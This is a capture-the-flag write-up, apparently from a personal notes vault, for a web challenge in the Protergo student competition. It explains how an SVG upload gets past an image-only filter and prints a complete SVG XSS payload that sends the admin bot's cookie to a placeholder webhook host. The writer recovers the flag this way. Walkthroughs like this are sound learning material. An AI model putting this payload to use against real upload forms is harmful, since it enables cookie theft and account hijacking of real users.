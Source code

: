 ```yaml
---
tags:
  - CTF
  - protergo
  - web-exploitation
  - "#client-side"
  - xss
  - file-upload
title: Protergo CTF - [Control]
---
```

![[Screenshot 2024-02-08 at 23.12.45.png]]
# Prologue

An Individual local competition that held by [Protergo](https://protergo.id/)company. The competition was starting from 1st February until 8th February. This competition is only limited to students.
# Write Up

## TL;DR Solution

1. There's a file upload feature.
2. In the description, there's a hint that an admin will visit our input.
3. Upload SVG with an embedded XSS payload to get the cookie.

## Detailed Explanation

A black box challenge. There's no source code in the challenge. 
![[Screenshot 2024-02-08 at 23.15.41.png]]

Visiting the link, will be given a form upload.
![[Screenshot 2024-02-08 at 23.16.09.png]]

Since the description mentions something like `admin will visit`, I already knows that it's a client-side challenge. With this, I attempts to fill all input with the XSS payload. But, there's no callback from the webhook.

Since there's file upload, I attempts to upload an HTML file, but the application rejects it, and the file must be an image
![[Screenshot 2024-02-08 at 23.29.40.png]]

Since SVG is considered an image, and I can embed Javascript inside it.
![[Screenshot 2024-02-08 at 23.31.14.png]]

As the picture above, the extension becomes `svg` even though the I tried to uploads a `png` extension.
## Exploitation

By this, We already know how to bypass the upload protection to achieve XSS.

Upload this SVG file, and usually in client side challenge, flag is located in cookies.
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      location="http://webhook/"+document.cookie
   </script>
</svg>
```

![[Screenshot 2024-02-08 at 23.35.49.png]]

After waiting for a few minutes, I receives the flag from the bot.
![[Screenshot 2024-02-08 at 23.37.30.png]]

FLAG: `PROTERGO{57d64a838c5158de42a706bf1e0195ee27406d551d29a217ed0706e8347824b0}`